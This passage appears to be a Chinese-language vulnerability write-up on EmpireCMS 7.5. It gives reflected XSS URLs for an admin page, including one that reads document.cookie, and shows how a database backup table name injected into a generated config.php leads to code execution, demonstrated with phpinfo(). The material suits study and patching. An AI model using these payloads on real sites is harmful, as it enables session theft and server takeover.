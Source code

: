 ![20201125145204](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201125145204.png)

缺少参数，缺少参数去后台首页找到`ehash_ho28t=3UDcxRasb3N97RyFArXK`

http://www.diguo.com/e/admin/openpage/AdminPage.php?ehash_f9Tj7=ZMhwowHjtSwqyRuiOylK&mainfile=javascript:alert(/xss/)
http://www.diguo.com/e/admin/openpage/AdminPage.php?ehash_f9Tj7=ZMhwowHjtSwqyRuiOylK&mainfile=javascript:alert(document.cookie)

### 参考链接
https://www.shuzhiduo.com/A/ZOJPejMP5v/


## 帝国CMS(EmpireCMS) v7.5后台备份数据库任意代码执行

### 漏洞描述

EmpireCMS 7.5版本及之前版本在后台备份数据库时,未对数据库表名做验证,通过修改数据库表名可以实现任意代码执行。

### 影响版本

EmpireCMS<=7.5

### 环境搭建

同上

### 漏洞利用

点击 系统-备份数据-选择数据库-开始备份
![20201125171319](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201125171319.png)

备份路径为
```
C:\phpstudy_pro\WWW\www.diguo.com\e\admin\ebak\bdata\www_diguo_com_20201125162930VPDqZW
```
config.php的内容为

```
<?php
	$b_table="phome_enewszttype";
	$tb[phome_enewszttype]=1;

	$b_baktype=0;
	$b_filesize=300;
	$b_bakline=500;
	$b_autoauf=1;
	$b_dbname="www_diguo_com";
	$b_stru=1;
	$b_strufour=0;
	$b_dbchar="utf8";
	$b_beover=0;
	$b_insertf="replace";
	$b_autofield=",,";
	$b_bakdatatype=1;
	?>
```
phome_enewszttype 替换成phpinfo()，访问config路径便能查看config信息
